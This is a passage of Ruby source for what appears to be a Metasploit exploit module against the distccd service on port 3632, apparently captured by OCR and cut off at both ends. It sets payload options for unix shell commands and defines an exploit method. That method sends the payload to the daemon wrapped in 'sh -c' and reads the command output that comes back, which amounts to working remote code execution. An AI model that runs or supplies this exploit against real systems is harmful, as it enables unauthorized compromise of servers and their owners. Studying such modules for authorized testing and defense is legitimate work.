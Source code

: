 ```rb

				],
			'Platform'       => ['unix'],
			'Arch'           => ARCH_CMD,
			'Privileged'     => false,
			'Payload'        =>
				{
					'Space'       => 1024,
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							'RequiredCmd' => 'generic perl ruby bash telnet',
						}
				},
			'Targets'        =>
				[
					[ 'Automatic Target', { }]
				],
			'DefaultTarget'  => 0,
			'DisclosureDate' => 'Feb 01 2002'
			))

			register_options(
				[
					Opt::RPORT(3632)
				], self.class)
	end

	def exploit
		connect

		distcmd = dist_cmd("sh", "-c", payload.encoded);
		sock.put(distcmd)

		dtag = rand_text_alphanumeric(10)
		sock.put("DOTI0000000A#{dtag}\n")

		res = sock.get_once(24, 5)

		if !(res and res.length == 24)
			print_status("The remote distccd did not reply to our request")
			disconnect
			return
		end

		# Check STDERR
		res = sock.get_once(4, 5)
		res = sock.get_once(8, 5)
		len = [res].pack("H*").unpack("N")[0]

		return if not len
		if (len > 0)
			res = sock.get_once(len, 5)
			res.split("\n").each do |line|
				print_status("stderr: #{line}")
			end
		end

		# Check STDOUT
		res = sock.get_once(4, 5)
		res = sock.get_once(8, 5)
		len = [res].pack("H*").unpack("N")[0]
```